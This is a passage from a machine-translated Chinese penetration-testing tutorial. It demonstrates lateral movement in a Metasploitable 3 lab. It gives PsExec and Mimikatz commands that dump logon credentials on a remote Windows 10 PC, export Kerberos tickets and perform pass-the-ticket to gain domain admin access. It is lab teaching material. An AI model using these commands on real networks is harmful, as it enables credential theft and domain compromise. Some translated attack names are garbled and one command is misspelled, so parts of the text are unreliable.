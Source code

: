 # 进行横向运动

通过使用`helpdeskagent`帐户的立交桥散列攻击产生的新命令窗口，我们将尝试访问 Windows 10 PC。使用`dir \\192.168.10.9\c$`命令执行简单的目录列表将导致目录被列出。这告诉我们`Helpdesk Staff`**可能在该电脑上拥有本地管理员权限。**

 **我们要做的第一件事是将 Mimikatz 复制到 Windows 10 PC 上。这可以通过使用`xcopy mimikatz.exe \\192.168.10.9\c$\tools`命令来完成。根据下面的屏幕截图*由于我没有创建目录，系统会提示我定义目标是文件还是目录：*

 *![](assets/4740813b-7b6c-4011-8221-a5bda59bbedf.png)

图 30：将 mimikatz.exe 复制到新目标

使用`PSexec`，我们将查看转储当前登录的用户凭据。这可以通过使用以下命令来完成：

```
psexec.exe \\192.168.10.9 -accepteula cmd /c (cd c:\tools ^& mimikatz.exe "privilege::debug" "seckurlsa::logonpasswords" "exit")
```

在这个命令中，我们告诉`PSexec`在远程系统上运行 Mimikatz 命令。`-accepteula`命令非常重要，因为这将阻止远程系统上出现 EULA 提示符：

![](assets/48ab34c0-243a-4b49-b876-83da3a361a9a.png)

图 31：使用 PSexec 远程执行 mimikatz 命令

一旦我们有了输出，就会看到有一个高权限的账号登录，即`domainadmin`：

![](assets/2c4720ed-0027-4370-9d41-9c7d205896f7.png)

图 32：在远程系统上获取凭据

在这里，我们没有明文中的密码，但是我们仍然有 NTLM 哈希，我们可以使用它。下一步我们要做的是执行“通过罚单”攻击。我们将使用与本节相同的命令行窗口。

# 执行通行证攻击

为了执行此攻击，我们需要从 Windows 10 PC 导出当前 Kerberos 票证。这可以使用以下命令完成：

```
psexec.exe \\192.168.10.9 -accepteula cmd /c (cd c:\tools ^& mimikatz.exe "privilege::debug" "sekurlsa::tickets /export" "exit")
```

在这个命令中，我们导出当前的 Kerberos 票据，以便复制它们并将它们导入会话。运行此命令后，您将拥有许多`*.kirbi`文件。由于我们只对`domainadmin`感兴趣，我们将把它们复制到 Metasploitable 3 服务器。可以使用正常的 Windows`copy`命令进行复制。

在 Metasploitable 3 服务器上拥有`.kirbi`文件后，可以使用以下命令执行通过票据攻击：

```
mimikatz.exe "privilege::debug" "kerberos::ptt c:\windows\system32\tools" "exit"
```

在这个命令中，我们定义了攻击（`kerberos:ptt`和`.kirbi`文件的位置：

![](assets/1e6cad93-e0fd-4825-9a8b-f22ff3e90782.png)

图 33：导入 domainadmin Kerberos 票证

注意前面屏幕截图中的输出。在执行攻击之前，我尝试访问 DC，但被拒绝。请记住，这是我们使用`helpdeskagent`帐户生成的同一窗口。一旦执行了 Mimikatz 命令，我们将看到，`domainadmin`Kerberos 票据已经导入到我们的会话中。
